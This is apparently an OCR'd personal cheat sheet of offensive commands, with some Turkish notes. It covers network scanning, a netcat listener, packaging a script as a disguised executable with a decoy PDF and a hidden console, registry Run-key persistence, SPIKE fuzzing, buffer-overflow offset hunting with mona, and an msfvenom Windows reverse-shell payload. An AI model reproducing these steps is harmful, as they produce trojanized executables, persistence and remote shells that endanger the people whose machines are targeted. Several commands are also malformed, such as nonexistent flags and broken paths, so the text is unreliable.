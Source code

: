 # NetDiscover #

netdiscover -r 182.154.164.1/24

# Redirect Port #

iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000

# NetCat #

nc -lvnp 10.10.10.10 80

# Windows Embed #

C:\Users\Windows\AppData\Local\Programs\Python\Python310\python.exe -m install pyinstaller

C:\Users\Windows\AppData\Local\Programs\Python\Python310\Scripts\pyinstaller.exe test.py --onefile

C:\Users\Windows\AppData\Local\Programs\Python\Python310\Scripts\pyinstaller.exe test.py --onefile --add-file "C\Users\Defult\Desktop\kal.pdf;." 

C:\Users\Windows\AppData\Local\Programs\Python\Python310\Scripts\pyinstaller.exe test.py --onefile --add-file "C\Users\Defult\Desktop\kal.pdf;." --noconsole

C:\Users\Windows\AppData\Local\Programs\Python\Python310\Scripts\pyinstaller.exe test.py --onefile --add-file "C\Users\Defult\Desktop\kal.pdf;." --noconsole --icon C\Users\Defult\Desktop\kal.pdf

# Regedit #

reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v upgrade /t REG_SZ /d "C:\Users\AppData\upgrade.exe"

# Spike #

generic_send_tcp 10.10.10.10 9999 spike.spk 0 0

cd /usr/share/metasploit-framework/tools/exploit - ./pattern_create.rb -l 3000 - ./pattern_offset.rb -l -q ---> EIP değeri

cd /usr/share/metasploit-framework/tools/exploit ./nasm_shell.rb ---> JMP ESP 

!mona modules - !mona find -s "\xff\xe4" -m < seçilen dll yada çalışan exe > ## ---> FFE4 output nasm shell.rb

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00" ---> badcharacter

# Locate #
